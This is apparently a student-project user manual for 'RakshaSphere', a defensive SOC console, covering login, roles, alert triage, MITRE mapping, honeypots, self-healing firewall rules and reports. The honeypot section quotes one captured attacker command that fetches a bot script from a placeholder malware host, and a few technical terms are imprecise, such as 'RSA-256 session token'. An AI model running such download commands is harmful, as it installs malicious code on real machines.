





# End-User Manual & Operational Console Guide

## RakshaSphere
### AI-Powered Autonomous Cyber Defense & Self-Healing Network Platform

> **Document Identifier**: `USER-MANUAL-RAKSHASPHERE-2026-V1.0`  
> **Target Audience**: `SOC Analysts, System Administrators, Faculty Evaluators, Project Demonstrators`  
> **Documentation Style**: `Microsoft Style Guide, Cisco User Docs, Atlassian Product Guides, AWS Console Docs`  
> **Classification**: `Official End-User Operational Console Manual`

---

## 📑 Table of Contents

1. [Welcome & Scope](#1-welcome--scope)
2. [Introduction to RakshaSphere](#2-introduction-to-rakshasphere)
3. [System Requirements](#3-system-requirements)
4. [Getting Started & Authentication](#4-getting-started--authentication)
5. [User Roles & Permissions Matrix](#5-user-roles--permissions-matrix)
6. [Architectural User Flow Diagrams](#6-architectural-user-flow-diagrams)
   - [End-User Journey Map](#61-end-user-journey-map)
   - [Authentication & Session Flowchart](#62-authentication--session-flowchart)
   - [Dashboard Navigation Architecture](#63-dashboard-navigation-architecture)
   - [Incident Investigation Workflow](#64-incident-investigation-workflow)
   - [Report Generation Workflow](#65-report-generation-workflow)
7. [SOC Dashboard Navigation & Layout](#7-soc-dashboard-navigation--layout)
8. [Threat Monitoring & Real-Time Alert Triage](#8-threat-monitoring--real-time-alert-triage)
9. [Cyber Threat Intelligence (CTI) & MITRE Matrix](#9-cyber-threat-intelligence-cti--mitre-matrix)
10. [Adaptive Deception & Honeypot Console](#10-adaptive-deception--honeypot-console)
11. [Self-Healing Control Panel & Manual Overrides](#11-self-healing-control-panel--manual-overrides)
12. [IoT Edge Monitoring Command Center](#12-iot-edge-monitoring-command-center)
13. [Reporting & Data Export Center](#13-reporting--data-export-center)
14. [Notification System & Real-Time Alerts](#14-notification-system--real-time-alerts)
15. [Global Search & Data Filtering](#15-global-search--data-filtering)
16. [System Settings & Administration](#16-system-settings--administration)
17. [Common Error Messages & Meaning](#17-common-error-messages--meaning)
18. [End-User Troubleshooting Guide](#18-end-user-troubleshooting-guide)
19. [Frequently Asked Questions (FAQ)](#19-frequently-asked-questions-faq)
20. [Operational Security Best Practices](#20-operational-security-best-practices)
21. [Keyboard Shortcuts Reference](#21-keyboard-shortcuts-reference)
22. [Accessibility & Responsive Viewports](#22-accessibility--responsive-viewports)
23. [Cybersecurity Glossary](#23-cybersecurity-glossary)
24. [UI Screenshot Artifact Gallery](#24-ui-screenshot-artifact-gallery)
25. [Future User Experience Roadmap](#25-future-user-experience-roadmap)

---

## 1. 👋 Welcome & Scope

Welcome to **RakshaSphere**! This User Manual provides end users, Security Operations Center (SOC) analysts, system administrators, and academic faculty evaluators with step-by-step guidance for navigating, monitoring, investigating, and controlling the platform through its web console.

No software engineering or code-level knowledge is required to use this manual.

---

## 2. 🛡️ Introduction to RakshaSphere

### 2.1 What is RakshaSphere?
RakshaSphere is an AI-powered cybersecurity platform that continuously monitors network traffic, detects cyber attacks using machine learning, gathers threat intelligence, captures attacker behavior using decoy honeypots, and automatically heals network services by blocking malicious attackers.

```
Detect Intrusion ➔ Score Threat Risk ➔ Divert to Honeypot ➔ Enforce Autonomous Block ➔ Restore Services
```

### 2.2 Core System Capabilities
- **Real-Time SOC Dashboard**: Visual radar gauges, threat velocity charts, and live security feeds.
- **AI Intrusion Detection**: Automated detection of SYN floods, port scans, SSH brute-forcing, and zero-day anomalies.
- **Cyber Threat Intelligence (CTI)**: Global IP reputation scoring via AbuseIPDB and VirusTotal, mapped to the **MITRE ATT&CK** taxonomy.
- **Adaptive Honeypot Traps**: Decoy SSH and HTTP traps capturing attacker commands and payload files safely in isolated sandboxes.
- **Autonomous Self-Healing**: Sub-second OS firewall and eBPF packet drops with one-click manual administrator overrides.
- **IoT Edge Daemon Monitoring**: Health and telemetry tracking across virtual edge gateways via MQTT messaging.

---

## 3. 💻 System Requirements

To access and operate the RakshaSphere Web Console:

| Requirement Category | Supported Specification |
| :--- | :--- |
| **Supported Web Browsers** | Google Chrome `v115+`, Mozilla Firefox `v118+`, Microsoft Edge `v115+`, Apple Safari `v17+`. |
| **Minimum Screen Resolution**| $1280 \times 720$ (Recommended: $1920 \times 1080$ Full HD). |
| **Network Connection** | Minimum $5\text{ Mbps}$ broadband internet / enterprise LAN connection. |
| **Operating System** | Platform-agnostic (Windows 10/11, macOS Sonoma/Ventura, Ubuntu 22.04+, ChromeOS). |

---

## 4. 🔑 Getting Started & Authentication

### 4.1 Launching the Console
1. Open your web browser and navigate to the official platform URL: `https://soc.rakshasphere.io` (or `http://localhost:3000` for local evaluation).
2. The **Secure Login Screen** will appear.

```
+-----------------------------------------------------------------------+
|  [ Shield Logo ]  RakshaSphere Security Operations Console            |
|                                                                       |
|  Username: [ soc_analyst                  ]                           |
|  Password: [ ******************           ]                           |
|                                                                       |
|  [ SIGN IN TO CONSOLE ]                                               |
+-----------------------------------------------------------------------+
```

### 4.2 Logging In
- Enter your assigned **Username** and **Password**.
- Click **Sign In to Console**.
- Upon successful authentication, an encrypted RSA-256 session token is established, and you are redirected to the **Main SOC Dashboard**.

> [!IMPORTANT]
> Sessions automatically time out after **15 minutes of inactivity**. If your session expires, re-enter your credentials to resume monitoring.

---

## 5. 👥 User Roles & Permissions Matrix

RakshaSphere implements strict Role-Based Access Control (RBAC):

| Feature / Workspace | Administrator (`ROLE_ADMIN`) | Security Analyst (`ROLE_SOC_ANALYST`) | Viewer (`ROLE_USER`) |
| :--- | :---: | :---: | :---: |
| **View Live Dashboard & Charts** | ✅ Full Access | ✅ Full Access | ✅ Read-Only Access |
| **View Threat Alerts & Details** | ✅ Full Access | ✅ Full Access | ✅ Read-Only Access |
| **Inspect Honeypot Commands** | ✅ Full Access | ✅ Full Access | ❌ Restricted |
| **Execute Manual Rule Revert** | ✅ Full Access | ❌ Restricted | ❌ Restricted |
| **Modify Self-Healing Policy Mode**| ✅ Full Access | ❌ Restricted | ❌ Restricted |
| **Export Executive Reports** | ✅ Full Access | ✅ Full Access | ✅ Read-Only Access |

---

## 6. 📊 Architectural User Flow Diagrams

### 6.1 End-User Journey Map



---

### 6.2 Authentication & Session Flowchart



---

### 6.3 Dashboard Navigation Architecture



---

### 6.4 Incident Investigation Workflow



---

### 6.5 Report Generation Workflow



---

## 7. 🖥️ SOC Dashboard Navigation & Layout

```
+-------------------------------------------------------------------------------+
| [RakshaSphere]  [ Search Threats... ]          (🔔 3) [ Analyst User v ]      |
+-------------+-----------------------------------------------------------------+
| Dashboard   |  SYSTEM RISK SCORE    ACTIVE THREATS   CONTAINED IPS   IOT DAEMONS |
| Alerts      |  [  88.5 / 100  ]    [  14 Active  ]   [ 142 Dropped ]  [ 50 Online]|
| CTI Intel   | +-------------------------------------------------------------+ |
| Honeypots   | | Live Threat Velocity Chart (Packets/sec vs Risk Score)       | |
| Self-Healing| +-------------------------------------------------------------+ |
| IoT Edge    | | Recent Incidents Table                                      | |
| Reports     | | IP: 198.51.100.42 | SYN Flood | Risk: 88.5 | Action: EBPF_DROP | |
| Settings    | +-------------------------------------------------------------+ |
+-------------+-----------------------------------------------------------------+
```

1. **Top Header**: Global search bar, real-time alert notification bell, user profile menu.
2. **Left Sidebar**: Workspace navigation links (`Dashboard`, `Alerts`, `CTI Intel`, `Honeypots`, `Self-Healing`, `IoT Edge`, `Reports`, `Settings`).
3. **Metric Cards**: Quick KPI stat counters showing overall System Risk Score, Active Threats, Contained IPs, and IoT Daemons.
4. **Interactive Charts**: Real-time line graphs displaying attack traffic volume over time.

---

## 8. 🚨 Threat Monitoring & Real-Time Alert Triage

- **Threat Severity Badge Color Coding**:
  - 🔴 **CRITICAL** ($\text{Risk Score} \ge 75.00$): Active exploit or volumetric attack; autonomous eBPF containment enforced.
  - 🟠 **HIGH** ($65.00 - 74.99$): Brute-force attempt; socket kill and `iptables` drop applied.
  - 🟡 **MEDIUM** ($40.00 - 64.99$): Low-rate probing; diverted to honeypot decoy container.
  - 🔵 **LOW** ($< 40.00$): Reconnaissance scan; logged for monitoring.

---

## 9. 🌐 Cyber Threat Intelligence (CTI) & MITRE Matrix

Navigate to **CTI Intel** (`/threat-intel`) to view:
- **Interactive MITRE ATT&CK Matrix**: Visual grid highlighting active attack techniques (`T1110` SSH Brute Force, `T1046` Network Service Scanning).
- **Global IP Reputation**: Displays AbuseIPDB confidence scores ($0-100\%$) and VirusTotal maliciousness ratings.

---

## 10. 🍯 Adaptive Deception & Honeypot Console

Navigate to **Honeypots** (`/honeypots`) to inspect attacker decoy sessions:
- **Live Session Feed**: Active SSH and HTTP decoy connections.
- **Captured Command Terminal**: Real-time playback of commands typed by attackers inside decoy containers (e.g., `wget http://malware.bin/bot.sh`).
- **Payload Hash Vault**: SHA-256 cryptographic hashes of malware dropped into honeypot traps.

---

## 11. 🛡️ Self-Healing Control Panel & Manual Overrides

Navigate to **Self-Healing** (`/self-healing`) to review autonomous containment:
- **Active Rule Feed**: Displays active low-level eBPF XDP driver drops and `iptables` host block rules.
- **One-Click Revert Button (`ROLE_ADMIN` Only)**: Click **Revert Rule** next to any target IP to immediately remove the firewall block.
- **System Execution Mode Toggle**: Select execution posture:
  - `AUTOMATIC`: Platform executes containment autonomously.
  - `SEMI_AUTOMATIC`: Stage containment actions and wait for analyst approval.
  - `MANUAL`: Display recommendations only.

---

## 12. 📟 IoT Edge Monitoring Command Center

Navigate to **IoT Edge** (`/iot`) to monitor virtual edge gateways:
- **Device Grid**: Status cards showing device state (`ONLINE`, `OFFLINE`, `QUARANTINED`).
- **Real-Time Telemetry Gauges**: CPU usage, memory consumption, active network socket counts, and latency.

---

## 13. 📄 Reporting & Data Export Center

Navigate to **Reports** (`/reports`) to export security summaries:
- **Export Formats**: Executive **PDF Dossier**, Raw Alert **CSV Data**, or **STIX 2.1 JSON** bundles.

---

## 14. 🔔 Notification System & Real-Time Alerts

Click the **Notification Bell** (top right) to open the live alert drawer:
- Displays high-priority threat detections and self-healing containment actions in real time via WebSockets without needing page refreshes.

---

## 15. 🔍 Global Search & Data Filtering

- **Global Search**: Type an IP address (`198.51.100.42`), technique ID (`T1110`), or device ID (`EDGE-01`) into the top search bar for instant filtering.

---

## 16. ⚙️ System Settings & Administration

Navigate to **Settings** (`/settings`) to configure:
- **User Profile**: Update email and notification preferences.
- **Theme**: Toggle between **Dark Cyber Theme** (default) and Light Mode.

---

## 17. ⚠️ Common Error Messages & Meaning

| Error Message | Meaning | Recommended Action |
| :--- | :--- | :--- |
| `HTTP 401 Unauthorized` | Invalid credentials or session expired. | Re-enter your username and password at the login screen. |
| `HTTP 403 Forbidden` | Access denied for your current user role. | Contact your System Administrator (`ROLE_ADMIN`) to upgrade permissions. |
| `Network Error: WebSocket Disconnected` | Connection to backend server interrupted. | Check your local network connection; console will auto-reconnect. |
| `HTTP 429 Too Many Requests` | API rate limit exceeded. | Wait 60 seconds before refreshing the screen. |

---

## 18. 🛠️ End-User Troubleshooting Guide

- **Symptom**: Charts or tables are not updating.
  - *Fix*: Verify your network connection and click the manual **Refresh Feed** button.
- **Symptom**: Cannot log into the console.
  - *Fix*: Confirm username spelling and password capitalization. Ensure caps lock is disabled.

---

## 19. ❓ Frequently Asked Questions (FAQ)

- **Q: How quickly does RakshaSphere block malicious IP addresses?**  
  *A: Autonomous containment actions execute in under **150 milliseconds** from threat detection.*
- **Q: Can an administrator manually unblock an IP address?**  
  *A: Yes! Administrators (`ROLE_ADMIN`) can click **Revert Rule** on the Self-Healing page to restore connectivity instantly.*

---

## 20. 🔒 Operational Security Best Practices

> [!SECURITY RECOMMENDATION]
> Always lock your workstation or log out of the RakshaSphere Web Console when leaving your desk!

1. Never share your console login credentials with team members.
2. Verify threat reputation scores prior to manually unblocking isolated IP addresses.

---

## 21. ⌨️ Keyboard Shortcuts Reference

| Keyboard Shortcut | Console Action |
| :--- | :--- |
| `Ctrl` + `/` (or `Cmd` + `/`) | Focus Global Search Bar |
| `Esc` | Close Active Drawer / Modal Window |
| `G` then `D` | Navigate to Dashboard (`/dashboard`) |
| `G` then `A` | Navigate to Alerts (`/alerts`) |

---

## 22. ♿ Accessibility & Responsive Viewports

RakshaSphere supports high-contrast dark themes complying with **WCAG 2.1 AA** color contrast ratios. All interactive tables and buttons support full keyboard navigation (`Tab` / `Shift + Tab` / `Enter`).

---

## 23. 📖 Cybersecurity Glossary

- **Threat**: Any malicious activity or intrusion vector attempting to compromise network integrity.
- **MITRE ATT&CK**: A globally accessible knowledge base of adversary tactics and techniques based on real-world observations.
- **Risk Score**: A dynamic mathematical score ($0-100$) reflecting threat severity and asset criticality.
- **Indicators of Compromise (IoCs)**: Artifacts (IPs, domain names, file hashes) indicating network compromise.
- **Honeypot**: A decoy container system deployed to attract and capture attacker activity.
- **Self-Healing**: Autonomous network remediation that blocks attackers and restores service health.

---

## 24. 🖼️ UI Screenshot Artifact Gallery

*(Visual UI mockups for console evaluation)*

- **Login Screen**: ``
- **Main SOC Dashboard**: ``
- **Threat Details Drawer**: ``

---

## 25. 🔮 Future User Experience Roadmap

- **Mobile Companion App**: iOS/Android SOC analyst alert notification app.
- **Interactive Keystroke Video Player**: Playback honeypot attacker terminal sessions like a video recording.
